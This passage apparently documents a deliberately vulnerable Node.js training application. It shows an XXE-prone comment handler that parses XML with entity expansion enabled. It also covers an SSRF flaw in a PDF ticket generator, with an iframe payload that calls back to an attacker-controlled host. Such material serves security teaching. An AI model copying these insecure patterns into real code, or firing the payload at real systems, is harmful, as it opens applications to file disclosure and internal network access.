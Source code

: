 ### Vulnerable code:

**Routes: /routes/app.js**

```js
router.post('/comment', authenticateToken, vuln_controller.xxe_comment);
```

**Controller: /controllers/vuln_handler.js**

```js
const xxe_comment = (req, res) => {
    const rawcomment = req.body.comment;
    const parsecomment = libxmljs.parseXmlString(rawcomment, { noent: true, noblanks: true });
    var comment = parsecomment.get('//content');
    comment = comment.text();
    res.send(comment);
}
```


## 9. SSRF via PDF generator

Application is using html-pdf-node package to generate ticket PDF which takes HTML page as an input and generates the PDF but application is not sanitizing user input before generating the HTML page an attacker can use it to perform the SSRF.

### Exploit

Inject the following payload in the passenger name field to perform the SSRF and don't forget to change yourwebsite.com to your webserver to receive a callback

```
<iframe src="http://yourwebsite.com/asdf"/>
```

### Vulnerable Code

**Route: /routes/app.js**

```
router.get('/ticket/booking', authenticateToken, vuln_controller.ticket_booking_get);
```

**Controller: /controllers/vuln_controller.js**

```
const ticket_booking_get = (req, res) => {
    let options = { path: "test.pdf" };
    let file = { url: `http://localhost:${process.env.HOST_PORT}/ticket/generate_ticket?passenger_name=${req.query.passenger_name}&from_stnt=${req.query.from_stnt}&to_stnt=${req.query.to_stnt}&date=${req.query.date}` };

    html_to_pdf.generatePdf(file, options).then(pdfBuffer => {
        res.header('Content-Disposition', 'attachment; filename="ticket.pdf"');
        res.send(pdfBuffer);
    });
}
```
